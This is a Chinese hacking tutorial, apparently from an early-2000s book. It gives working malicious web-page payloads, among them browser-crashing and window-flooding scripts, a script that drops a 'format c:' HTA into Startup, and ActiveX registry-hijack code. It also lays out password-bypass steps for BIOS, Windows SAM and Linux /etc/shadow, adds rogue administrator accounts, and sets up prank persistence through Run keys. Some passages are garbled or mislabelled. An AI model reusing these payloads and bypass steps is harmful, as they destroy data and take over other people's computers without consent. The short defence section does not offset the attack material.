所谓网页炸弹就是黑客利用浏览器漏洞和系统漏洞在网页中植入恶意代码，以达到攻击者攻击的目的，因为浏览网页是网民们上网操作最多的一项活动了。如果制作网页炸弹放到某个网站上，那么所有浏览这个网页的用户都会遭到攻击，轻则死机，重则硬盘数据被毁！下面我们来看一些常见的网页炸弹代码。

### 1. WIN98 蓝屏死机炸弹

蓝屏炸弹第一种代码：

```html
<html><head><title></title></head>
<body></body></html>
```

蓝屏炸弹第二种代码：

```html
<script language="javascript">window.open("file:///c:/con/con")</script>
```

死机炸弹第三种代码：

```html
<script language="javascript">a='hello';
function ad(){a=a+a;window.status=a.length;window.setTimeout("ad()",10)}ad()</script>
```

把这些代码放入网页的 HTML 代码中，WIN98 用户浏览这个网页就会蓝屏死机。

> ### 提示
> JavaScript 是一种常用的网页脚本编程语言，IE 内嵌了 JavaScript 的功能，但有人利用 JavaScript 来编写恶意脚本程序，如果浏览了带有这些小程序的网页就会遭到攻击，导致内存和 CPU 超负荷，甚至死机。JavaScript 炸弹是网页炸弹中最常见的一种。

### 2. 窗口炸弹

打开无限个窗口代码：

```html
<script language="javascript">n=1;while(n==1){window.open("")}</script>
```

打开 N 个窗口代码：

```html
<script language="javascript">for(g=0;g<25;g++){window.open("")}</script>
```

打开无数个对话窗：

```html
<script language="LiveScript">
function pushbutton(){alert("欢迎光临");}
var a=1;
while (a=1){pushbutton()}
</script>
```


图 1

这些窗口炸弹能使浏览者的机器一下子跳出许许多多个窗口，使得内存和 CPU 超负荷，如图 1，配置性能稍差的机子会死机。

### 3. “地震”炸弹

地震炸弹代码：

```html
<script language="javascript">i=N;while(!isNaN(i)){window.top.moveBy(i,0);window.top.moveBy(0,i);window.top.moveBy(-i,0);window.top.moveBy(0,-i)}</script>
```

这些网页炸弹的特点是能使你的计算机屏幕剧烈震动或闪烁不停，所以把它叫做“地震”炸弹。

### 4. 背景闪烁炸弹

背景闪烁炸弹代码：

```html
<script>
var color = new Array;
color[1] = "black";
color[2] = "white";
for(x = 0; x < 3; x++) {
  document.bgColor = color[x];
  if(x == 2) { x = 0; }
}
</script>
```

这个炸弹会让对方的窗口背景颜色在“黑白”两色之间急速无限地更换，使整个屏幕激烈抖动，非常可怕。


图 2

女鬼炸弹代码：（代码很长，见光盘）这个炸弹会跳出一个“眼冒凶光、血流满面”的女鬼，她会在你的屏幕上幽灵般地飘动，并发出凄厉的鬼叫声，如图 2。

### 5. 格盘炸弹

格盘炸弹代码：

```html
<script>
scr.Reset();
scr.Path = "C:\\WINDOWS\\StartMenu\\Programs\\启动\\heibao.hta";
scr.Doc="
wshl.Run('start.exe/m format c:/q/autotest/u');
alert('IMPORTANT:Windows is removing unused temporary files!!)"
scr.write();
```

这个代码利用了 Win98 系统漏洞（具体的分析请看第四章 Win98 漏洞攻防），能把你的 C 盘格式化。

### 6. 恐怖图片炸弹

恐怖图片炸弹代码：

```html

```

这个炸弹发了一幅恐怖的而且“特大”的图片，会让浏览机子的 CPU 超负荷。

### 7. 修改注册表炸弹

网页炸弹还能修改注册表，大家知道注册表是存储计算机软硬件配置信息的数据库，修改它，轻的可以隐藏你桌面等，重则可以使你的系统瘫痪。像前段时间闹得沸沸扬扬的“万花谷”病毒和“混客炸弹”的基本原理就是注册表。注册表修改炸弹代码：

```html
<script language="javascript">
document.write('<APPLET HEIGHT=0 WIDTH=0 code=com.ms.activeX.ActiveXComponent></APPLET>');
function f(){
a1=document.applets[0];
a1.setCLSID("{f935DC22-1CF0-11D0-ADB9-00C04FD58A0B}");
a1.createInstance();
Shl = a1.GetObject();
Shl.RegWrite("HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\NoDesktop",1,"REG_DWORD")
Shl.RegWrite ...
}
```

# 忍剑影  
不禁鸟必杀绝技

```javascript
(`HKCU\\Software\\Microsoft\\Internet Explorer\\Main\\Start Page", "http://www.cn")

function init()
{
  setTimeout("f()", 1000);
}
init();
```

代码中的“Shl.RegWrite”后就是具体被修改注册表的内容，这个代码中我们修改了注册表的两个地方：一是“Policies\\Explorer\\NoDesktop”，把桌面所有图标都隐藏了；二是“Internet Explorer\\Main\\Start Page”，把 IE 的起始页改成了我们的论坛 www.cnxxz.net。如果在 Win98 或 Win2000 下浏览这个代码，那系统的注册表就会被网页修改掉，如图 3。



图 3

### 8. 防御网页炸弹

首先是不要轻易去一些自己并不了解的站点，不要轻易点击网友发给你的链接，不要轻易打开 HTML 格式的电子邮件。

其次，在 IE 窗口中点击“工具－Internet 选项”，在弹出的对话框中选择“安全”标签，再点击“自定义级别”按钮，就会弹出“安全设置”对话框，把其中所有 ActiveX 插件和控件以及 Java 相关全部选择“禁用”即可，如图 4。

第三，有些网页炸弹是利用 IE 漏洞和系统漏洞进行攻击的，所以大家应该多升级、多打补丁，把浏览器升级到最新版本。

第四，目前的许多杀毒软件已经把恶意网页列为查杀对象，我们可以借助于它们，并尽量升级到最新病毒库，以预防该类恶意网页的侵害。



图 4

### 第三节 密码破解

我们知道解密技术是一门复杂的技术，涉及脱壳、反编译、软件分析技术、加密算法分析等多方面的知识，而本节介绍的这些密码破解方法非常简单，并不是真正意义上的解密技术，但对一些新手朋友来说，这些都是比较实用的常用密码破解的简单方法。

### 一、CMOS密码破解

- 1. 通用密码尝试法

许多老主板的 BIOS（如 AWARD、AMI 等）一般留有通用密码，那时厂家在生产时都为自己的 BIOS 预留了万能密码，以防不时之需。我们只要用这些密码尝试一下，像 Award、AMI 的通用密码有很多：

- AWARD 的 BIOS：“award，Syxz，h996，wantgirl，eBBB，dirrid”
- AMI 的 BIOS：“AMI，Sysg”

以上万能密码在 386、486、奔腾主板上破解 CMOS 口令几乎百发百中（密码注意大小写），但对 PII 级或以上的主板就不那么灵了。能破解 PII 以上新主板的万能密码就比较少，但还是有一个口令：“abaujbao”，据说能成功破解承启 6ATA4（PIII）、伟格 MVP4（K6-2）、奔驰 160A、160A+（PIII）等十余块主板上的 CMOS 口令。而现在 P4 级别的主板就已经没有通用密码了。

- 2. debug 法

这种方法很方便，不用拆机箱，直接在 DOS 下运行几句命令即可解除密码。在 Win98 下进入 MS-DOS，或是用软盘启动进入 DOS 下，执行 Debug 程序，出现 “-” 符号，如图 1，然后再输入：

````
o 70 21
o 71 16
q
````

要注意的是，70 和 71 是 CMOS 的两个写入端口，我们可以向它们随意写入一些错误数据（如 21、16 等随意数据），就会破坏 CMOS 里的所有设置。有时间的朋友不妨多用几个数据试试。退出到 DOS 提示符后重新启动计算机，CMOS 密码就为空了，可以重新设置 CMOS 密码了。



> **提示**：Debug 方法需要的操作系统为 Win98 版本，因为只有早期视窗操作系统才有可以对硬件进行读写的 Command。在 WinME 操作系统中已经将 DOS 进行了改动且去除了纯 DOS，而在 Win2000 和 WinNT 中的 32 位命令提示符都不可以对硬件进行读写。

- 3. CMOS 密码读取软件

这应该算是最省事、最傻瓜化的方法了，只要运行这些 CMOS 密码读取软件之后，你就能用密码了。特别是你的系统不是 Win98、不能用 debug 法时，使用它就能比较方便地得到密码。下面我们提供几个 CMOS 密码读取软件给大家。

Cmoscrack：此软件能解大多数的 CMOS 密码，成功率达到 97%，运行平台：Win9x/WinNT/Win2000/Win2003。如图 2，它算出了 CMOS 密码：**The password is:01001300**。


图 2

tpsn.rar（唐朝密探）：它不但可以破解 CMOS 密码，还可以破解屏幕保护密码、显示 * 号密码等。如图 3；它的运行平台：Win9x/WinNT/Win2000/WinME/Win2003。


图 3

这类 CMOS 密码解析工具还有很多，比如 cmos.exe、biospwd 等等，这里就不一一例举了。

当然这种方法要在能进入系统的前提下才能进行。

- 4. 放电法

上面几种破解 CMOS 的方法都是在能进入系统的前提下进行的，如果计算机的 CMOS 中设置的是开机时验证密码，那这种方法就实现不了。遇到这种情况只能用放电法来破解了。

众所周知，CMOS 是靠内部电池供电保存密码等信息的，放电法是最有效的方法。只要打开机箱，找出放电跳线，将机箱拆开，在主板上好好找找就会找到一块电池，把电池取下来用导线进行正负极短接放电。一些主板为了免除 CMOS 电池的拆卸，在主板上也提供了一个 CMOS 清空跳线，在 BIOS 芯片附近仔细找找就可以找到，直接将跳线按说明书操作也可以去除 CMOS 密码。

### 二、破解 Win 2000/XP 管理员密码

前面我们已经把 CMOS 密码破解掉了，扫除了进入系统的第一个“障碍”，但后面还有“拦路虎”挡在我们面前，这就是系统登录密码，我们接着来破解它！

Windows 2000 是最常见的服务器操作系统，其默认的管理员账户为 administrator，系统要求输入用户密码才能进行登录。不过 administrator 账号及其他账号密码等信息都存放在 Windows 2000 系统的 SAM 文件中，所以我们只要删除掉这个存储用户密码的 SAM 文件，那系统重新启动后便会由于密码验证文件验证错误而使得管理员的 administrator 账号密码为空，我们就能进入了。

如果 Win2000 用的是 FAT32 分区，那么只要直接用启动盘来启动系统，进入 DOS 状态。在 DOS 提示符下键入：

````
del c:\winnt\system32\config\sam
````

确认删除后重新启动计算机，再次进入 Win2000 登录界面时会发生验证错误，administrator 的密码便为空了。

而如果 Win2000 使用的是 NTFS 分区，可以用 NTFSDOS Pro 等工具在 DOS 下访问 NTFS 分区。先进行安装，默认安装即可。接着用它来制作启动盘，它所制作的启动盘虽然使用的还是 MS-DOS，但却可以读写 NTFS 格式文件系统，所有 DOS 命令都可以使用在 NTFS 格式系统上。具体操作可以按照“制作向导”一步步下去就行。

然后再把这个 dog 用户加入管理员组：

````
net localgroup administrators dog /add
````

这样就将该用户加入系统管理组“administrators”了。

最后重新启动计算机，选择正常模式下运行，就可以用更改后的口令“12345678”登录了。

> **注意**：由于 NTFSDOS Pro 制作启动盘时需要拷贝一些 Win2000 的系统文件，所以必须要在 Win2000/XP 下制作。然后用制作好的启动盘来启动那台丢了密码的计算机，再用 DOS 命令来删除 `c:\winnt\system32\config\SAM` 文件就可以了。

### 三、破解 Linux 超级用户密码

上面我们已经了解了 Win2000 系统的登录密码破解情况，但是这种方法对 Windows XP 就没有用了，因为如果把 Windows XP 的 sam 文件删除后重启系统就会提示出错，进不了系统。那 Windows XP 的登录密码丢失后该如何解决呢？其实也简单，只要通过运行 WinXP 的内部 Net 命令就可以解决。

我们这里以破解管理员用户“fox”登录口令为例来说明解决 WinXP 登录口令的方法。启动计算机，在 Windows XP 启动画面出现后马上按下 F8 键，选择“带命令行的安全模式”。运行过程结束时，系统列出了系统超级用户 administrator 和用户 fox 的选择菜单，鼠标单击“fox”，进入命令行模式，然后就用 `net user fox password` 命令来修改密码了。比如要将账号为 fox 的密码设置为 12345678，那么可以输入：

````
net user fox 12345678
````

这样就强制将“fox”用户的口令更改为“12345678”。若想在此添加一新用户，用户名为 dog，口令为 87654321，只要键入：

````
net user dog 87654321 /add
````

前面我们破解了 Windows 2000/XP 登录密码。Linux 功能强大、性能稳定、源代码开放更易于扩展，也是人们常用的服务器操作系统之一。Linux 管理员账户是 root，它是具有所有管理权限的超级用户。如何破解 root 登录密码进行登录呢？我们知道 Redhat 下用户密码是保存在 `/etc/shadow` 里，我们就可以从这里来寻找突破口。

我们这里以 Redhat Linux 7.3 系统为例，先进入 CMOS，在启动顺序里设置为“先从光盘启动”，然后把 1 号安装光盘插入，重启计算机。这样重启后就启动了 Linux 安装程序，进入 Redhat 安装界面。它会询问你要进入哪种模式，其中有一项是 “To enable rescue mode……” 的救援模式，按 F4 进入救援（rescue）模式。注意：如果 Redhat Linux 版本不同，进入救援（rescue）模式并不一定按 F4，大家请看清楚系统提示。

接下来系统会提示让你输入 “Linux rescue” 这几个字并按回车，这样开始正式进入了救援模式。接下来是选择语言（如中文的选中文）及键盘类型，按回车即可。等一下系统会提示：“your system is mounted under the /mnt/sysimage when finished please exit from the shell......”，这说明系统已经把硬盘上的 Linux 系统挂载到了 `/mnt/sysimage` 下。接着还会出现超级用户的提示符 `#`，接着操作如下：

````
#cd /mnt/sysimage/etc 进入到硬盘 etc 目录下。
#cp shadow shadow.old 做备份防不测。
#chmod +w shadow 修改 shadow 文件的属性为可写。
#vi shadow 然后用 Vi 修改它。
````

这样进入了 vi 文本编辑界面，找到含 root 用户信息的那一行（一般在第一行）：

````
root:$1$el66zlF/$GxT3KLRYOsNt.Z:1967:0:99999:7:::
````

上面句中第一、二两个冒号之间就是 root 的加密后密码，接着用 “s:” 或 “dd:” 命令把第一、二两个冒号之间的所有信息都删除掉（冒号不能删），变为：“root::1967:0:99999:7:::”，这样 root 的密码就为空了。然后用 wq 命令进行存盘并退出 vi，回到 # 提示符下，输入：

````
#chmod -w shadow  再把 shadow 的属性改回只读。
#exit  退出 rescue 模式。
````

不会用 vi 进行编辑的用户们可以采取如下方法：找一张 DOS 盘插入软驱，用 mcopy 命令把 shadow 文件拷贝到 DOS 盘上（一般情况下，Linux 要对软盘进行操作需要用 mount 命令加载，但 mcopy 命令可以直接对软盘进行读写，而且访问路径为 a:）：

````
#mcopy shadow a:/
````

然后拿到 Windows 下用附件中的记事本按上面的方法修改它，注意打开文件类型一定要选所有文件 *.* 才能找到 shadow 文件，存盘退出。最后再拷回覆盖原来的 shadow 文件：

````
#mcopy a:/shadow mnt/sysimage/etc
````

最后输入 Exit 退出，取出光盘后重启动，再次进入系统后 root 用户密码已经变为空了，简单吧！

### 四、常用密码破解

破解了系统登录密码终于进入了系统，但是我们有时候还是会遇到一些应用软件也有各种各样的密码保护，很是麻烦，下面我们接着来破解它们。

- 1. 破解拨号密码

拨号网络密码是用户上网时用的账户密码。我们知道在 Windows 95/98/ME 系统中拨号连接的密码是以 [****] 星号密码形式显示在拨号连接框里的。要查看它很容易，只要使用一些星号密码查看工具就可以知道这些拨号连接的密码了。我们这里使用一个叫 ViewPass.exe 的星号密码查看工具。把软件的“放大镜”拖到 [****] 星号密码上，如图 1，Win98 拨号网络的明文密码就在下面的 ViewPass.exe 中显示了出来。


图 1

不过 Win2000/XP/2003 系统中的拨号网络密码可没这么容易破解，查看星号密码的方法在 Win2000/XP/2003 是不行的，因为 Windows 2000/XP 的 Edit control 改用了别的方法。比如 WinXP 中它的拨号网络连接框里根本没有“****”这样的内容，如图 2，所以不可能用查看星号的方法。不过我们知道，在 Win2000/XP/2003 系统中拨号网络属于 Windows 的远程访问服务（Remote Access Service—RAS），所以只要能得到 RAS 里面的信息就可以取得拨号网络的密码。当然，拨号网络建立拨号连接时必须是选择保存密码，才能把密码读取出来。

这个方法在你不小心丢掉密码时也可以用。

我们这里推荐给大家一个工具 Dialupass，它可以直接把拨号网络的账户名称及密码等信息从 RAS 中读取出来并以列表形式显示，如图 3。它在 Windows 2000/XP/2003 中使用时必须以 Administrator 身份登录。


图 2


图 3

- 2. 破解 Foxmail 口令

Foxmail 是国内用户最常用的邮件客户端软件，它支持多个账号用户。每个信箱账号可以设定自己的访问口令以防止被人查看，如图 4。功能远比 Outlook Express 强大得多，但它的安全性不是太好，很容易被破解或绕过口令验证。


图 4

破解 Foxmail 访问口令的工具有很多，foxmail 杀手就是一个可以绕过 foxmail 口令验证的工具。只要先打开 foxmail，接着再打开 foxmail 杀手，用鼠标点其右上角的“Foxmail 图标”后不要松键，把图标拖到 Foxmail 的用户列表窗口里，然后再释放键，这样 foxmail 杀手的左边显示框里会生成一个用户列表，如图 5。在列表中点击相应的账户，虽然 Foxmail 还是会提示你输入密码，但你只要点击“取消”即可看到邮件了。


图 5

- 3. 破解压缩文件口令

压缩文件是我们经常遇到的，常见的压缩软件有：ZIP、RAR、ARJ、ACE 等等。讨厌的是有些压缩文件被设置了密码，没有密码不能解压缩使用了，所以我们要破解它们。Advanced Archive Password Recover 是一个专业级的压缩软件密码猜解软件，它可以解开 ZIP/PKZip/WinZIP，ARJ/WinARJ，RAR/WinRAR 和 ACE/WinACE 等几种压缩文件的密码。

安装并打开 Recover，在 “Encrypted zip/rar/arj file” 选择你要破解的加密压缩文件；在 “type of attack” 中选择你需要采用的破解方式；如果你有常用的破解字典，请选择 “dictionary”，我们一般选用 “brute-force”（暴力穷举破解），如图 6。


图 6

然后还可以在 “brute-force range options” 中选择密码所有可能的组成字母，在 “length” 设置密码长度等等。这样就可以按 “start” 开始猜解了。如果发现密码，它会弹出对话框，如图 7。如果是 8 位以下的纯数字密码几秒钟就可以破解，字母和数字组合的 6 位以下密码也是比较迅速的，几分钟到最多几小时能解决。但如果要破解 8 位以上的复杂密码，那就需要比较长的时间了。需要耐心等，好在如今处理器速度和内存“进步”飞速，破解速度大大提高。


图 7

- 4. 破解 Office 文档口令

Office 是国际上流行的一种办公软件，全世界许多人都在用它。微软也提供了一些密码保护，但用这些口令保护的安全性不是很高。网上有许多可以破解 Office 文档的破解工具，无论是 Word 文档，还是 Excel 和 Access 文档都有许多破解软件。如 accesspass.exe 就是一个 Access 保护密码查看工具，它支持 ACCESS97/2000/XP，可查看 20 位的 ACCESS2000 密码，并且支持中文密码，如图 8。


图 8


图 9

Word、Excel 也有许多访问口令破解工具，甚至还有对 Office 系列的 Word、Excel、Access、Outlook 等都可以进行破解的工具：Advanced Office XP Password Recovery。它能够将所有的 Microsoft Office 97/2000/XP 文档的密码很快破解出来，而且还支持非英文字符。安装后打开 Password Recovery，在 “open” 对话框中指定要破解的 Office 文档，并在 “Type of attack” 列表框中选择适当的密码破解方式，在 “Brute-force range options” 列表框中选择可能包括的密码范围、密码长度，如图 9，再设定 “start passwd” 和自动保存时间间隔等后，单击 “start recovery” 按钮就可以开始进行破解，非常方便，密码很快就会破解出来，你所需要的仅仅是耐心。

## 绘图中的恶作剧

恶作剧玩笑只能用在朋友之间偶尔开开玩笑，不能玩得过火，电脑上的恶作剧也是一样。但是近年来网上的恶作剧软件泛滥，恶作剧的危害度也越来越高，动辄就是系统瘫痪、硬盘炸弹，菜鸟朋友们一再受害。俗话说“知己知彼，百战不殆”，本节我们将介绍一些网上最常见的恶作剧，其中有些无伤大雅，而有些大家则需要警惕防范。

#### 一、恶作剧三式

- 1. 删除不掉的文件夹

操作系统：Windows 98  
恶作剧指数：★★

这个恶作剧的目标是在 Windows 的桌面创建几个一般用户不能打开、不能改名、不能删除的文件夹，它可以使人们大为头痛。

Windows 98 不知道应该如何去处理名字中包含有 ASCII 码空格的文件夹。如果以 ASCII 码空格作为文件夹名，便会在那个位置上出现一个下划线。如果你试图打开它，你就会被告知“目录不存在！”。不但如此，这个文件夹建立后就不能再被改名或删除。如果是在桌面上，它们这样永久地陈列着实在是烦人。

建立这种文件夹的关键在于用键盘产生 ASCII 码空格，我们可以先按住 Alt 键，然后在数字小键盘上打 255，就会产生一个 ASCII 码空格。


我们打开一个命令提示符窗口，将当前目录转到 C:\Windows\Desktop，然后输入：“md undel file”，如图 1。实际用键盘应该依次打入字符是：md [空格] undel [ALT+255]file。退出 DOS 命令提示符窗口，你就会看见在桌面上有一个文件夹，如图 2。当你试图对它改名时也会遇到系统不允许的情况，删除它时也是一样。

要删除它也必须用创建它的方式：打开 DOS 命令提示符窗口，运行命令即可。

```bat
RD [空格][YOU[ALT+255]SUCK
```

以取得一样的效果。不过这样容易被用户发现，可以编辑 Windows 2000/XP 注册表中 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` 的字符串，在数值里填入这个 bat 文件的路径，如图 3。这样系统启动时这个 bat 也会被执行，“垃圾”文件就马上跑到桌面上去了。

```text
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
```


## 2. 疯狂的“垃圾”桌面

- 操作系统：Windows 98/2000/XP
- 恶作剧指数：★★

这个恶作剧的目的是每次在计算机启动时将指定目录内容拷贝到 Windows 的桌面上，使得桌面成为“垃圾”文件“堆放场”，让人删不胜删。

在这里我们随便选个文件多点的文件夹，比如 Windows 的 Temp 等目录都可以。如果在 Windows 98 系统下，可以用记事本打开 Autoexec.bat 文件，在文件里加上一行命令，存盘并退出。这样系统以后每次启动时就会将 `C:\Windows\Temp` 目录下的文件全部拷贝到 Windows 桌面上。

```bat
Copy C:\Windows\temp\*.* C:\Windows\Desktop
```

如果是 Windows 2000/XP，你可以创建一个 bat 文件。此文件内容与上面加入的一行命令差不多，但有点不同。由于 Win2000 是多用户操作系统，不同用户有不同的桌面文件夹，如 Administrator 的桌面路径是 `C:\Documents and Settings\Administrator\桌面\`，所以命令中的目标文件夹要改成相应用户的桌面路径才行。然后可以把这个 bat 文件放到“启动项”中，也可以取得一样的效果。

## 3. “被定身”的桌面

- 操作系统：Windows 98/2000/XP
- 恶作剧指数：★★★

这个恶作剧的目的是将桌面上的所有图标隐藏起来，并将墙纸换成抓图得到的正常桌面图像，用“假”的桌面代替真的桌面。这样任凭用户再怎么操作，“桌面”都像被施了“定身术”。这看起来相当简单，然而它总是能使菜鸟感到莫名其妙，以为中了什么病毒了。


### 菜鸟必杀绝技：剑光魅影

具体操作步骤如下：进入系统桌面，关闭一切已经打开的窗口和应用程序，然后按“Print Screen”键把屏幕截下来。再打开程序附件中的“画图”程序，在其“编辑”菜单中选择“粘贴”，这样整幅屏幕就出现在画板中了，如图 4，然后把图片保存下来。我们要用这个完全与桌面一模一样的图画来代替真正的桌面。


图5


图6

假桌面制作完了，但要把“真桌面”隐藏起来后假桌面才能发挥功效。具体操作步骤如下：打开“开始”菜单，在“运行”中输入 regedit，打开注册表编辑器，进入 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 分支，在右窗口中新建一个二进制值，值名为“NoDesktop”，然后将其键值设置为“1”，确定后退出注册表编辑。重启后进入桌面，你会发现桌面上所有图标全没了，如图 5。

图标隐藏了，但任务栏还在，还得把它也隐藏掉：把鼠标移到任务栏的上边缘上，当鼠标变成双箭头形时拖住不放往下拉，拉到屏幕最下方，直到不能拉为止。然后再打开“开始”菜单“设置”中的“任务栏和开始菜单”选项，在“任务栏选项”中把“总在最前面”取消，把“自动隐藏”选上，如图 6，这样任务栏也被隐藏掉了。

最后把刚才保存下来的屏幕截图打开，将其设置为墙纸。然后看看，效果不错吧，与原来桌面一模一样，不过任凭再怎么按上面的图标和任务栏，它就是没反应。要恢复时，只要进入注册表将刚才新建的值名为“NoDesktop”的二进制值删除，然后重启计算机后桌面上所有图标就会恢复。

前面介绍了三种 Windows 系统下的手工设置恶作剧的方法。其实只要你熟悉 Windows 的注册表，还有许许多多的恶作剧玩笑可以设置：修改注册表隐藏驱动器、隐藏控制面板，禁止和修改鼠标键盘等等，让朋友们自己去发现吧！

## 三、恶作剧程序

如今网上流传着许多恶意程序，这些恶意程序威力极大。对于网络新手来说往往容易中招，因此这里为大家介绍几个最流行、最常见的恶作剧程序，使大家对它们有所防范，减少悲剧的发生。

## 1. Dancer

危害度：★

Dancer 是一个捉弄人的程序，其主程序 DDS.exe，如图 1，文件大小 17KB。运行这个程序后，Windows 的当前窗体和鼠标会有节奏地“跳舞”，十分搞笑，所以程序称为“Dancer”（舞者）。

这个恶作剧程序虽然搞笑，但它并不修改系统文件和注册表，所以危害度不大。解决方法：只要重新启动即可。

只有干着急，要是想进入文件夹该怎么办呢？别着急，恢复方法是用以下格式运行该软件即可：

```bat
ILoveRecycling.exe -recover
```

这个程序效果不错，又没有什么危害，可以用来跟朋友开玩笑用。


图1

## 2. iL.R.exe

危害度：★★

ilr（ILoveRecycling.exe）也是个恶作剧程序，文件大小 15KB。这是一个很另类的恶作剧软件，它不破坏数据，不会让你无法进入系统中，但它又实在很捉弄人。和它取的文件名“ILoveRecycling”的意思一样，这个程序运行后会把硬盘上所有分区里的文件夹通通变成回收站，如图 2。这些“垃圾站”里的文件夹和文件你无法通过点击来进入或打开它们，只能进行“清除”或“还原”操作。


图2

天啊，真的很烦，全是垃圾箱，文件打不开。

## 3. 女鬼缠身

危害度：★★

这是一个会跳出女鬼的吓人程序，是吓 MM 的利器。运行此程序后，女鬼会在每晚 12 点以后跳出来。所以有熬夜上网习惯的朋友可要小心了，而且每次出现的女鬼都不一样。程序里共有 6 段女鬼画面，会随机出现，如图 3。在晚上 12 点以后开着音箱、关着灯，效果就更佳了！胆小的千万别玩。


图3

此程序只是恶作剧程序，不是病毒！不会对你的系统造成任何破坏，也不会写你系统的注册表。需要退出程序请直接按下“HOME+9”键，这时会弹出窗口，问你是否退出并自动清除，选“是”则下次开机就不会自动运行了。不过由于女鬼本身的图画和尖叫的“震撼力”已足以把人吓个半死，所以假如你认为本程序好玩并发给朋友时，请务必说明退出方法，避免你的朋友被女鬼纠缠而无法自拔。

